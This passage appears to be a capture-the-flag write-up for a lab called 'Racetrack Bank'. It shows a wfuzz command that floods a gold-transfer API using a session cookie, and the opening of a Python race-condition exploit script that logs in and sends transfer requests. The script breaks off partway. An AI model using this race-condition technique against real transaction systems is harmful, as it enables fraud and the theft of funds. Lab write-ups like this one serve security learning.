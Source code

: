 <br>
<b3>Racetrack</b3>

<img width="719" height="169" alt="image" src="https://github.com/user-attachments/assets/cc13cf57-ae97-436a-b27f-6c7df7303457" />

<br>
<h3> <code>B</code> giving gold to <code>A</code></h3>

```bash
:~/RacetrackBank# wfuzz -w file.txt -u http://xx.xxx.xx.xxx/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AjJJcJn8bwRUTYagaTGb2IIgQhu-la_8o.4Of9dwlKdtVTJt%2FGGNx6CQvrwWenjbZBOp6SB8a46Fk" -d "user=A&amount=FUZZ"
 ```

<img width="1054" height="182" alt="image" src="https://github.com/user-attachments/assets/fab14992-f97b-4878-ab57-b3a31ff27e95" />

<img width="950" height="388" alt="image" src="https://github.com/user-attachments/assets/5f51bee0-9bf3-4896-a25f-0cdbb4e0bab8" />


<p>

- Got enough <code>gold</code> with <strong>Baris Dincer</strong>´s script</p>

<br>
<h3><code>script</code></h3>

<p><em>script.py</em></p>

```bash
import grequests
import requests
from bs4 import BeautifulSoup

ip_address = "xx.xxx.xx.xxx"

user_main = "B"
pass_main = "password"
user_add =  "A"
pass_add =  "password"

def user_gold_and_cookie(username, password):
    payload = {
        'username': username,
        'password': password
    }
    with requests.Session() as session:
        response = session.post(f'http://{ip_address}/api/login', data=payload)
        soup = BeautifulSoup(response.text, "html.parser")
        gold_amount = 0
        for tag in soup.find_all('a'):
            if "Gold:" in tag.text:
                gold_amount = int(tag.text.split(":", 1)[1].strip())
                cookie_dict = session.cookies.get_dict()
        return cookie_dict['connect.sid'], gold_amount

def send_gold(user, cookie, amount):
    url = f'http://{ip_address}/api/givegold'
    headers = {
        "Host": ip_address,
        "Referer": f'http://{ip_address}/giving.html',
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "close",
        "Cookie": f"connect.sid={cookie}",
        "Upgrade-Insecure-Requests": "1"
    }
    cookies = {
        "connect.sid": cookie
```